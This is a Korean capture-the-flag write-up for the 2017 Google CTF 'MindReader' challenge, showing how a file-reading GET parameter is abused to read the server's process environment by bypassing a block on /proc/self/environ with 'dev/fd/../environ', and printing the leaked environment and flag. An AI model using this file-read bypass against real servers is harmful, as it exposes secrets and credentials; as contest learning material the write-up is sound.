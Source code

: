 # 2017 Google CTF Quals - [Misc] MindReader
## Problem

```
Can you read my mind?

Challenge running at https://mindreader.web.ctfcompetition.com/
```

처음에 사이트를 들어가서 보면,

`Hello, what do you want to read?` 라는 문장과 `TextBox` 그리고 `Submit` 버튼이 있습니다.

또 다른 정보가 없는지 소스를 한번 확인해봅시다.

```
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```

`GET` 방식으로 `f` 라는 파라미터가 전송되어집니다. 해당 파라미터를 통해서 파일의 내용을
읽을수가 있습니다.

어떤 경로에 어떤 파일이 존재하는지 모르니, `/proc/self/envrion` 을 열어봅니다.

```
Forbidden

You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.
```

그러면 Forbidden 이 뜨면서, 접근을 할 수가 없다고 뜹니다.
다른 방법으로 해당 파일에 접근해야할 것 같습니다. `dev/fd/../environ` 으로 접근을 해보니
플래그가 나옵니다.

```
GAE_MEMORY_MB=614HOSTNAME=2c7fa149dd43GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-dv60PORT=8080HOME=/rootPYTHONUNBUFFERED=1GAE_SERVICE=mindreader-sss6w3uqjfrcntmnAPPENGINE.GOOGLEAPIS.INTERNAL_NAME=/gaeapp/appengine.googleapis.internalPATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243LANG=C.UTF-8DEBIAN_FRONTEND=noninteractiveGCLOUD_PROJECT=ctf-web-kuqo48dGOOGLE_CLOUD_PROJECT=ctf-web-kuqo48dCHALLENGE_NAME=mindreaderVIRTUAL_ENV=/envPWD=/home/vmagent/appGAE_VERSION=20170618t144344FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```

`CTF{ee02d9243ed6dfcf83b8d520af8502e1}`
